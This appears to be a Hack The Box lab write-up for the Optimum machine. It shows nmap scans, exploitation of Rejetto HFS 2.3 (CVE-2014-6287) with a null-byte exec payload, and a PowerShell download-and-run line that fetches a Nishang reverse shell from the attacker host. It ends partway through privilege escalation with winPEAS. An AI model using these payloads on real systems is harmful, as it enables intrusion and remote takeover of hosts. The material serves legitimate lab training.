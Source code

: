 # Hack The Box - Optimum

```CSS
Machine IP: 10.10.10.8

Vulnerabilities:
  - Rejetto HTTP File Server 2.3: CVE-2014-6287 (w/o MetaSploit)
```

## NMAP
```CSS
▶ nmap -Pn -sS -p- 10.10.10.8 -T4 --min-rate 1000 -oN surface.nmap

Nmap scan report for 10.10.10.8
Host is up (0.18s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http
```

```CSS
▶ nmap -sC -sV -p 80 10.10.10.8 -oN deep.nmap

Nmap scan report for 10.10.10.8
Host is up (0.18s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## HTTP #80
![image](https://user-images.githubusercontent.com/83878909/235110690-0249d8ca-39e8-42c0-b237-2aab3e219a96.png)

### HTTP File Server 2.3
  - CVE-2014-6287 : The findMacroMarker function in parserLib.pas in Rejetto HTTP File Server (aka HFS or HTTP Fileserver) 2.3x before 2.3c allows remote attackers to execute arbitrary programs via a %00 sequence in a search action.

### Exploit
![image](https://user-images.githubusercontent.com/83878909/236133911-37a8b4c2-129c-4215-81f0-4b67efba6033.png)

#### Command Execution

```CSS
▶ tcpdump -i tun0
```
```CSS
%00{.exec|ping 10.10.14.21.}
```
![image](https://user-images.githubusercontent.com/83878909/236135355-c044f521-5cea-4d4c-abb3-95aafa954d6c.png)
![image](https://user-images.githubusercontent.com/83878909/236134669-802324a7-fbd7-4cf3-9cd8-6bc4c8336c04.png)

#### Reverse Shell (Nishang)

- `Invoke-PowerShellTcp.ps1`
![image](https://user-images.githubusercontent.com/83878909/236135960-4b5a97fd-8c54-4847-ac0e-f6e6c1dbed23.png)

  - Copy and Paste the line of code to the bottom of the sciript.
  - Edit the code.
![image](https://user-images.githubusercontent.com/83878909/236136805-0bc1601e-7bad-4b11-bad7-3206cf2f3dcd.png)
![image](https://user-images.githubusercontent.com/83878909/236137400-fad06366-6e40-4a1f-b0de-1f1d8831b9ff.png)

  - Upload the `Nishang` script.
  - Start a reverse `Netcat` listener.

```CSS
%00{.exec|c:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.21:8000/Invoke-PowerShellTcp.ps1').}
```
![image](https://user-images.githubusercontent.com/83878909/236139893-93d6cafd-91f1-4da8-94cc-4c2a5ca6079b.png)
![image](https://user-images.githubusercontent.com/83878909/236139759-484a70c3-ca74-4e01-9096-50befb2d0dc6.png)

  - Target system information.
```CSS
PS C:\Users\kostas\Desktop>systeminfo                                                
```
![image](https://user-images.githubusercontent.com/83878909/236140832-cb67ae27-8fb1-42cf-8dcc-b03aca12c96c.png)

## Privilege Escalation

  - Start SMB server.
```CSS
▶ sudo impacket-smbserver share . -smb2support
```
  - Copy `winPEASx64.exe` to optimum.
```CSS
▶ copy \\10.10.14.21\share\winPEASx64.exe .
```
![image](https://user-images.githubusercontent.com/83878909/236153111-422fdf8f-75cd-46dd-83f1-ab8a88d517ad.png)

  - Execute `winPEASx64.exe`.
```CSS
PS C:\Users\kostas\desktop> ./winPEASx64.exe           
```
![image](https://user-images.githubusercontent.com/83878909/236154915-b4378173-3efa-4131-b365-dd54291fe8a2.png)
No useful information was found.

  - Upload 
